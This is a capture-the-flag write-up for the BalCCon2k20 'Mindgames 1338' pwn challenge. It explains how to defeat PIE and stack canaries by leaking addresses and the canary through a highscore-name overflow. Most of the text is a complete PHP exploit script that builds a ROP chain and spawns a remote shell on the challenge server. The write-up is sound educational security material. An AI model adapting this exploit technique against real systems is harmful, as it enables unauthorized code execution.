 # Mindgames 1338 - BalCCon2k20 CTF (pwn, 470, 8 solved)
## Introduction

Mindgames 1338 is a pwn task. This is the third and last challenge of the
Mindgames serie (Mindgames 1336, 1337, 1338). This challenge has PIE and stack
canaries.

A Linux ELF file is provided. It is a guessing game. The highest score belongs
to a randomly generated Star Wars character, but can be replaced by the user's
name.

## Reverse engineering

The reverse engineering has been explained in Mindgames 1336's and Mindgames
1337's writeups.

## Exploitation

The exploitation here is slightly more complicated due to the presence of stack
canaries : not only is it required to leak the binary's base address, but it is
also required to leak the stack canary to overwrite it.

The canary is stored on the stack. A pointer to the stack can be found in the
libc (`environ`, which points to the program's environment variables).

The exploitation becomes:
1. leak PIE by overwriting last byte of `player`
2. leak libc by pointing `player` to `__libc_start_main`
3. leak stack by pointing `player` to libc's `environ` pointer
4. leak canary by pointing `player` to `environ - 0x110`
5. ROP to call `system("/bin/sh")`

**Flag**: `BCTF{0h_no!_N0w_y0u_killed_my_canary!_Your_mind_really_is_a_weapon!}`

## Appendices
### pwn.php
```php
#!/usr/bin/php
<?php // vim: filetype=php
require_once "/mnt/ctf/tools/pwn/phplib/tubes/Socket.php";

// PIE
const LSM     = 0x00003fe0;
const PUTS    = 0x00001040;

// libc
const ENVIRON = 0x001be080;
const POPRDI  = 0x00023a5f;
const BINSH   = 0x00181519;
const SYSTEM  = 0x000449c0;

const HOST = "pwn.institute";
const PORT = 41338;

function menu(Tube $t)
{
	$t->expectLine("What do you want to do?");
	$t->expectLine(" 1) Show Highscore");
	$t->expectLine(" 2) Play the game");
	$t->expectLine(" 3) Exit");
	$t->expect("> ");
}

function hs(Tube $t)
{
	menu($t);
	$t->write("1\n");

	$t->expectLine("Current highscore:");
	$line = $t->readLine();

	list($score, , $player) = explode("\t", $line, 3);
	$score |= 0;
	$player = substr($player, 1);

	return [$score, $player];
}

function play(Tube $t, $name, $count = 0)
{
	global $ffi;

	menu($t);
	$t->write("2\n");

	$t->expectLine("Can you guess my numbers?");
	$t->expect("> ");

	for($i = 0; $i < $count; $i++) {
		$guess = $ffi->rand();
		$t->write("$guess\n");
	}

	for($i = 0; $i < $count; $i++) {
		$t->expectLine("You were lucky this time!");
		$t->expect(">");
	}

	$t->write("-1\n");
	$t->expectLine("Game over!");
	$t->expectLine("New Highscore! Amazing!");

	$t->expect("Give me your name: ");
	$t->write($name);
}

printf("[*] Creating process\n");
$time = microtime(true);

$t = new Socket(HOST, PORT);
$date = strftime("%Y-%m-%d %H:%M:%S"); // it's okay because we use NTP ;-)
$t->expectLine("Hello there! It's $date and the weather looks pretty nice!");

//$t->expect("Hello there! It's ");
//$date = $t->read(strlen("2020-09-25 21:26:35"));
//$t->expectLine(" and the weather looks pretty nice!");
$t->expectLine("");
$t->expectLine("");
$t->expectLine("We should play a game of the mind!");
$t->expect("> ");

$ffi = FFI::load("rand.h");

printf("[+] Done in %f seconds\n", microtime(true) - $time);
printf("\n");

$time = strtotime($date);
$ffi->srand($time);
$ffi->rand(); // player
$score = $ffi->rand(); // score

printf("[*] Leak addresses\n");

/* Leak */
$payload  = str_pad("XeR", 0x20, "\x00");
$payload .= pack("Q", 0); // faster
$payload .= "\xe8";

play($t, $payload, 32);
$hs   = hs($t);
$addr = str_pad(substr($hs[1], 0, 8), 8, "\x00");
$base = unpack("Q", $addr)[1] - 0x40e8;

printf("[+] base: %X\n", $base);

$payload  = str_pad("XeR", 0x20, "\x00");
$payload .= pack("Q", 0); // faster
$payload .= pack("Q", $base + LSM);

play($t, $payload);
$hs   = hs($t);
$addr = str_pad(substr($hs[1], 0, 8), 8, "\x00");
$addr = unpack("Q", $addr)[1];
$libc  = $addr & ~0xFFF;
$libc -= 0x23000;

printf("[+] libc: %X\n", $libc);


$payload  = str_pad("XeR", 0x20, "\x00");
$payload .= pack("Q", 0); // faster
$payload .= pack("Q", $libc + ENVIRON);

play($t, $payload);
$hs    = hs($t);
$addr  = str_pad(substr($hs[1], 0, 8), 8, "\x00");
$stack = unpack("Q", $addr)[1];

printf("[+] stack: %X\n", $stack);


$payload  = str_pad("XeR", 0x20, "\x00");
$payload .= pack("Q", 0); // faster
$payload .= pack("Q", $stack - 0x110 + 1);

play($t, $payload);
$hs     = hs($t);
$leak   = "\x00" . substr($hs[1], 0, 7);
$canary = unpack("Q", $leak)[1];
assert(8 === strlen($leak));

printf("[+] canary: %X\n", $canary);
printf("\n");


/* actual pwn */
$payload  = str_repeat("x", 0x108);
$payload .= pack("Q", $canary); // canary

$payload .= pack("Q", 0xdeadbeef); // rbp
$payload .= pack("Q*",
	$libc + POPRDI, $libc + BINSH,
	$base + PUTS,

	$libc + POPRDI, $libc + BINSH,
	$libc + SYSTEM,

	-1
); // rip

play($t, $payload);


printf("[!] shell\n");
$t->pipe();
```